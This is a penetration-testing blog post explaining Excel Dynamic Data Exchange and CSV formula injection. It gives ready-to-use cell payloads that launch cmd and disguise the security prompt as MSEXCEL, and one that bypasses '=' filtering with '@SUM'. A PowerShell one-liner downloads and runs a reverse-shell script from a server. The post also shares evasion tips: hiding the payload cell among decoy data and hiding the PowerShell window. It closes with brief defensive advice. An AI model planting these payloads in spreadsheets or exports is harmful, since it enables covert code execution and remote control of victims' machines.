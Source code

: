 ```yaml
---
layout: page
sidebar: right
subheadline: 'Pentesting'
title:  "Living Off the Land With DDE"
teaser: "A pen tester's guide to using native Windows programs and tools, specifically  Dynamic Data Exchange (DDE), to excel in your next PenTest!"
breadcrumb: true
categories:
    - infosec
tags:
    - blog
    - infosec
    - post
    - pentesting
    - office
    - windows
image:
    thumb: lol-dde/DDE-Excel2.png
    title: lol-dde/DDE-Excel2.png
---
```


I'm a huge fan of living off the land when it comes to hacking and working my way through a network. There are few things that feel better than taking a perfectly reasonable tool and flipping it inside out for my own benefit.

Recently, I was working on a penetration test for a web application, and I found a file upload function that allowed users to upload and download Excel files. The first thing that came across my mind - macros. But when I tried to upload a macro-enabled xlsm file, I was denied.

So I started hunting for other ways to exploit within file uploads. I knew about weaponized PDFs and other run-of-the-mill methods, but those seemed boring, and I was trying to be a little more original. I thought to myself, "It would be Excel-ent to be able to do this without macros..." 

        (•_•)               ( •_•)>⌐■-■            (⌐■_■)

Like most professionals, I realized I knew nothing and went to Google for help. I searched for how to load a payload into an excel without macros, expecting nothing, and was surprised to find my new favorite “feature” (keep reading) - Dynamic Data Exchange.
## Dynamic Data What Now?
According to Wikipedia, Dynamic Data Exchange (DDE) was first introduced in 1987 as a method to share data between applications in such as way that if it was updated in one, it would be updated in the other. Sounds great right? Well as it turns out, application and network security practices were not as important in 1987 as they are today - and that's saying something.

Microsoft implements DDE within its Office suite of applications to allow the transfer of data in a variety of ways. As a matter of fact, it’s still documented on microsoft.com as a feature included with Office ["for one-time data transfers and for continuous exchanges in which applications send updates to one another as new data becomes available."](https://docs.microsoft.com/en-us/windows/desktop/dataxchg/about-dynamic-data-exchange)

The basic idea is that you can have a spreadsheet or document that subscribes to an outside data source and automatically updates when changes occur. In theory, that sounds very helpful and is probably very useful in financial or medical spaces. However, there is a dark side to this force.
## Living Off the Land with DDE
As it turns out, DDE commands can execute just about any program - not to sugar coat it too much. Worse still, they can mask what programs they are executing. To a user opening an Excel document, nothing really looks out of the ordinary.

Even with the warning messages that Microsoft now forces them to display before they run, a typical user will probably do what they always do and click right on through. More than likely they downloaded the document from a trusted source.

What might be the worst part about this whole attack vector, though, is that this feature is built into every modern version of Office. Virtually every desktop computer running in an office can be exploited by DDE, and if it's done correctly, the user probably won't even know.
## So How Do You Do It?
As I mentioned above, DDE is a feature built into Microsoft Office, meaning it can be used within Word, Excel, and other applications. This article will focus on Excel, but vectors have been discovered for using the same principles in the other Office programs like Word and Outlook as well.

Starting off in the most basic and benign way possible, I will show how to use a DDE payload in Excel to open a calculator.
<figure style="text-align:center; margin:1em">
<img src="/images/lol-dde/calc-cmd.gif" alt="DDE-Calc">
<figcaption style="font-size:small">
 =CMD|'/c calc.exe'!'a1'
</figcaption>
</figure>

## Let's Break This Down
When Excel comes across a '=' it knows to evaluate the contents of the cell. Normally, this is used to add something or run a built-in Excel function, but DDE allows a user to run any executable. One such function that is allowed by default is cmd. By using cmd, the following arguments take the same set of options as a standard Windows command prompt. I used '/c' in this example to run the program called and then terminate the promp, but you could use ‘/k’ to leave the shell running if you wanted to. After that, it's just a matter of picking a program like calc.exe and finishing the DDE syntax for Excel.
## Let's Make This Sneakier
So that payload will let you run just about anything installed on the computer (actually…really anything), but a warning will pop up asking the user if they want to run CMD.EXE. That's not exactly the friendliest warning - even though people just say ok to pop-ups anyway. But we can do better.
<figure style="text-align:center; margin:1em">
<img src="/images/lol-dde/dde-calc-obfuscated.gif" alt="DDE-Calc">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c calc.exe'!'a1'
</figcaption>
</figure>

This doesn't do anything different, except now the warning message asks to run MSEXCEL.EXE. Well, of course the user wants to run MSEXCEL.EXE - that's what they clicked on in the first place. The rest of the payload just brings the exploit back to using cmd.exe with the same options as before, and a new calculator is born!

In addition, feel free to hide the cell in the spreadsheet. When these payloads execute, they tend to leave behind a reference error. A hidden field (maybe in the 1000th row) won't draw as much attention if a spreadsheet is loaded with a bunch of decoy data.
## Let's Make This Scarier
So now we basically have a well-hidden payload that opens a calculator...yay. But if you remember, DDE can be used to run any command. In the spirit of continuing to live off the land, let's try PowerShell.

<figure style="text-align:center; margin:1em">
<img src="/images/lol-dde/dde-shell-obfuscated.gif">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c powershell.exe $e=(New-Object System.Net.WebClient).DownloadString(\"http://127.0.0.1/revshell.ps1\");powershell $e'!'a1'
</figcaption>
</figure>


Nice. A one-line PowerShell script to download what appears to be a reverse shell and execute it. This particular script will open a PowerShell window, but adding '-windowstyle hidden' should take care of that, and frankly the damage is already done.  Plus, we still haven't used anything that Microsoft didn’t give us for free (er…“free”). That isn't to say we couldn't. We can download anything and run it.

<figure style="text-align:center; margin:1em">
<img src="/images/lol-dde/dde-chrome-obfuscated.gif">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"'!'a1'
</figcaption>
</figure>

## Let's Make This More Flexible
In some cases, the payloads above won't work. For example, I once tried to use DDE in a CSV export function (by the way...this works for any type of file that can be opened in Excel) that took user input and sent it to a file that can be saved to a user's machine. I saved the payload into the application, but when I downloaded the CSV, the '=' was removed. It looked like game over, but guess what.

What?

It wasn’t.
 
<figure style="text-align:center; margin:1em">
<img src="/images/lol-dde/dde-calc-with-at-sign.gif">
<figcaption style="font-size:small">
@SUM(cmd|'/c calc.exe'!a1)
</figcaption>
</figure>

Turns out, the '@' sign is a valid evaluation prefix as well. The same rules apply as all the previous payloads. The initial CMD can be replaced by MSEXCEL, and feel free to go beyond the dreaded calculator.
## Defend Yourselves
The best way to defend against malicious DDE payloads is to limit the types of files that can be uploaded to only the most necessary for your workflow. If you don't need Excel-style files, don't allow them - even if macros are disabled.

Additionally, applications that export user-defined fields to Excel-friendly files should not allow DDE payloads as input. This means filtering '=' and '@' for sure, but really anything that falls outside the scope of the application's requirements.  If you NEED to use ‘=’ and ‘@’ at the beginning of a text field I suppose you can add a single quote to the front of the value when it’s exported.  Doing so will keep Office from evaluating what comes next.  But you probably don’t NEED them anyway – unless you are promoting a twitter handle (say for example, [@_hansonet_](https://twitter.com/_hansonet_)).
## Final Notes
The most surprising thing about this particular security issue is that I had never heard of it before. Between classes, conversations, and conventions, I had never heard anyone even mention what I believe is a fairly effective, and dangerous security hole. Apart from a couple of very recent blog posts, there wasn't much to go off of, but a lot to be gained by looking into DDE.

DDE is a feature, not likely to go away any time soon. At the time of this writing, Microsoft has disabled automatic execution and presents a warning prompt, but how often does depending on user work as an effective defense? The only real defense is to limit file uploads, inspect file content, and filter user input.  Enjoy, and leave a comment if you’ve had any personal success with this!
